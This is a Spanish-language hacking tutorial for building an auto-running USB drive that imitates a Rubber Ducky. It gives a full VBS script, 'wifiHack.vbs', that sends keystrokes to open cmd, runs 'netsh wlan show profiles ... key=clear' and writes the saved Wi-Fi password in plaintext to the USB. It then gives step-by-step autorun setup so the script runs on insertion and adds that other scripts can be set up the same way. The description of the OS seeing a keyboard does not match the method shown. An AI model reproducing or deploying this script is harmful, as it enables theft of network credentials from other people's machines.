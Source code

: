 ```yaml
---
icon: scroll-old
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# USB AutoRun

Si queremos emular el comportamiento de un USB `Rubber Ducky`, que basicamente cuando insertemos el USB en algun PC se ejecute el script que nosotros hayamos programado de forma automatica, esto se consigue haciendo creer al sistema operativo que se esta conectando un teclado y con el script enviar tecla por tecla lo que se quiere escribir o hacer en el S.O. como si fuera un teclado.

Lo que primero tendremos que hacer sera instalar el siguiente programa llamado `AutoRun Creator`:

URL = [Download AutoRun Creator](https://usb-autorun-creator.softonic.com)

Una vez que hayamos descargado el ejecutable llamado `usbac_setup_smof.exe`, solo tendremos que seguir los pasos de instalacion de forma normal, cuando se haya instalado tendremos que buscar en `windows` lo siguiente:

```
USB AutoRun Creator - Editor
```

Ejecutamos esa aplicacion para que se nos habra el programa para crear el USB `AutoRun`, pero antes de seleccionar las opciones, crearemos un script basico para dumpear la informacion de la `red wifi` seleccionada + la contraseña en texto plano de forma automatica:

## <mark style="color:purple;">Crear Script VBS</mark>

> wifiHack.vbs

```vbs
Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")

' 👉 Nombre de la red Wi-Fi y archivo de salida
Dim wifiName
wifiName = "<WIFI_NAME>"
Dim notepadFileName
notepadFileName = "dead.txt"

' 👉 Verifica permisos de administrador
If Not objShell.Run("cmd.exe /c net session >nul 2>&1", 0, True) = 0 Then
    MsgBox "Por favor, ejecuta este script con permisos de administrador.", vbCritical, "Error de permisos"
    WScript.Quit
End If

' 👉 Ruta donde se guardará el archivo (D:\dead.txt)
Dim outputFilePath
outputFilePath = "<LETRA_DE_LA_UNIDAD>:\" & notepadFileName

' 👉 Crear el objeto para enviar teclas
Set x = CreateObject("WScript.Shell")

' 👉 Abrir la ventana de comandos (cmd)
x.SendKeys "^{ESC}"  ' Abre el menú de inicio
WScript.Sleep(1000)

x.SendKeys "cmd"  ' Escribe 'cmd' para buscar el símbolo del sistema
WScript.Sleep(1000)

x.SendKeys "{ENTER}"  ' Ejecuta el comando
WScript.Sleep(1000)

' 👉 Construir el comando para obtener información de la red
x.SendKeys "netsh wlan show profiles """ & wifiName & """ key=clear > """ & outputFilePath & """"
WScript.Sleep(1000)

' 👉 Ejecutar el comando (simula presionar Enter)
x.SendKeys "{ENTER}"
WScript.Sleep(2000)

' 👉 Salir de la ventana de comandos (cmd)
x.SendKeys "exit"
WScript.Sleep(500)
x.SendKeys "{ENTER}"
WScript.Sleep(1000)

' 👉 Verifica si el archivo de salida se ha creado en D:\
If objFSO.FileExists(outputFilePath) Then
    ' 👉 Abre el archivo en Notepad
    objShell.Run "notepad.exe """ & outputFilePath & """", 1, False
Else
    MsgBox "No se pudo generar el archivo: " & outputFilePath, vbCritical, "Error"
End If
```

Lo unico que tendremos que cambiar sera la parte de `<WIFI_NAME>` donde tendremos que sustituirlo por el nombre del `wifi` que queramos sacar info y en concreto la contraseña, despues tambien tendremos que cambiar la parte donde pone `<LETRA_DE_LA_UNIDAD>` por la letra de la unidad del USB que es donde se depositara el archivo `dead.txt` donde estara toda la informacion de la `red wifi` con su contraseña.

> EJEMPLO:

```
"<LETRA_DE_LA_UNIDAD>" = "D:\"

"<WIFI_NAME>" = "wifitest"
```

Una vez echo esto lo guardaremos en el USB y por si acaso crearemos el archivo `dead.txt` en el USB tambien.

## <mark style="color:purple;">Crear USB AutoRun</mark>

Llendo donde estabamos en la interfaz del `USB AutoRun Creator` de la aplicacion, tendremos que darle a `Select` en la primera opcion:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y en este seleccionaremos el archivo `wifiHack.vbs` que esta en el USB.

Despues en la segunda opcion seleccionaremos `Browser`:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y seleccionaremos la letra de la unidad del USB, seguidamente le daremos a la opcion `USB Drive`:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y le daremos a `OK`.

Una vez configurado todo solo tendremos que darle al boton llamado `Create` y esto nos creara todo para que el USB inicie de forma automatica el el script que seleccionamos y que el S.O. se piense que el USB es un teclado, para que asi se ejecute el script, una vez que se termine de ejecutar el script, veremos que la informacion del `wifi` y la contraseña estara en ese TXT.

Ya no solo podremos ejecutar ese script, si no que podremos programar otros scripts para que hagan lo que queramos.

Solo tendremos que sacar el USB y volverlo a insertar para que se ejecute el script de forma automatica.
